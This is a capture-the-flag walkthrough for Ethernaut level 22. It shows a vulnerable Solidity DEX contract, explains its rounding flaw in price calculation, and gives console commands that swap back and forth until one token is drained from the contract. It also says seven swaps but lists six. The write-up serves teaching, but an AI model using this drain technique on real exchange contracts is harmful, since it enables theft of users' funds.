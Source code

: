 # Level 22: Dex

This is the level 22 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites
- [ERC20 Token Standard](https://eips.ethereum.org/EIPS/eip-20)
- Solidity [division operation](https://docs.soliditylang.org/en/v0.8.11/types.html#division)

## Hack

Given contract:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract Dex  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_price(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_price(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(spender, amount);
    SwappableToken(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

`player` has to drain all of at least one of the two tokens - `token1` and `token2` from the contract.

The vulnerability originates from `get_swap_price` method which determines the exchange rate between tokens in the Dex. The division in it won't always calculate to a perfect integer, but a fraction. And there is no fraction types in Solidity. Instead, _division rounds towards zero._ according to docs. For example, `3 / 2 = 1` in solidity.

We're going to swap all of our `token1` for `token2`. Then swap all our `token2` to obtain `token1`, then swap all our `token1` for `token2` and so on.

Here's how the price history & balances would go. Initially,
```
      DEX       |      player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10               
```


After swapping all of `token1`:
```
      DEX       |        player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10
  110     90    |   0       20                
```

Note that at this point exchange rate is adjusted. Now, exchanging 20 `token2` should give `20 * 110 / 90 = 24.44..`. But since division results in integer we get 24 `token2`. Price adjusts again. Swap again.
```
      DEX       |        player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10
  110     90    |   0       20    
  86      110   |   24      0    
```

Notice that on each swap we get more of `token1` or `token2` than held before previous swap. This is due to the inaccuracy of price calculation in `get_swap_price` method.

Keep swapping and we'll get:
```
      DEX       |        player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10
  110     90    |   0       20    
  86      110   |   24      0    
  110     80    |   0       30    
  69      110   |   41      0    
  110     45    |   0       65   
```

Now, at the last swap above we've gotten hold of 65 `token2`, which is more than enough to drain all of 110 `token1`! By simple calculation, only 45 of `token2` is required to get all 110 of `token1`.

```
      DEX       |        player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10
  110     90    |   0       20    
  86      110   |   24      0    
  110     80    |   0       30    
  69      110   |   41      0    
  110     45    |   0       65   
  0       90    |   110     20
```

Jump into console. First approve the contract to transfer your tokens with a big enough allowance so that we don't have to approve again & again. Allowance of 500 should be more than enough:
```javascript
await contract.approve(contract.address, 500)
```
Get token addresses:
```javascript
t1 = await contract.token1()
t2 = await contract.token2()
```

Now perform 7 swaps corresponding to the table rows above one by one:
```javascript
await contract.swap(t1, t2, 10)
await contract.swap(t2, t1, 20)
await contract.swap(t1, t2, 24)
await contract.swap(t2, t1, 30)
await contract.swap(t1, t2, 41)
await contract.swap(t2, t1, 45)
```

`token1` is drained! Verify by:
```javascript
await contract.balanceOf(t1, instance).then(v => v.toString())

// Output: '0'
```
This is it!


_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

